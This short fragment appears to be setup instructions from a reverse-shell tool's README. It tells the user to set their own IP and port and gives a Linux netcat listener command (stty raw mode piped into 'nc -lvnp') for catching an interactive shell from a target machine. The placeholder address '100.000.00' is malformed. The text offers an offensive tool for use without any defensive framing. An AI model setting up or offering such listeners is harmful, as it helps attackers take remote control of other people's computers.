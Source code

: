 Change to your ip address (HOST), change port to anything you want
For linux stty "raw -echo; (stty size; cat) | nc -lvnp 69 -s 100.000.00"
Change(100.000.00) to your ip (HOST) 

